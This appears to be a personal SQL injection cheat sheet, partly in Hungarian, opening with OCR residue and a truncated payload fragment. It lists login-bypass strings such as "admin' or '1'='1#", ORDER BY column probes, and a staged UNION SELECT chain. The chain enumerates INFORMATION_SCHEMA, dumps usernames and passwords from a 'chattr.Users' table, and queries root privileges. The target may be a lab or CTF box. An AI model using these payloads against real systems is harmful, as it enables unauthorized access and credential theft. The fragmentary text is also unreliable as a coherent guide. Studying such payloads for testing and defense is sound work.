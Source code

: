 om' or id = '1')--
Ha js-el validál akkor elősször be kell írni a jó formátumot és burp-el vagy zappal kell átírni a 
Check list:
- Login screen:
	- Basic login bypass:
		- admin' or '1'='1#
		- admin'-- -
		- admin')-- -
		- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass
	- Order by:
		- ' order by 1-- -
		- ' order by 1--
	- Union select:




 q=adawd') UNION ALL SELECT NULL,NULL,NULL,-- -&u=3

 q=adawd') UNION ALL SELECT NULL,NULL,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='chattr'-- -&u=
 
 q=adawd') UNION ALL SELECT NULL,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='Users'-- -&u=3


q=adawd') UNION ALL SELECT NULL,NULL, username, password from chattr.Users-- -&u=3
q=adawd') UNION ALL SELECT NULL,NULL,grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -&u=3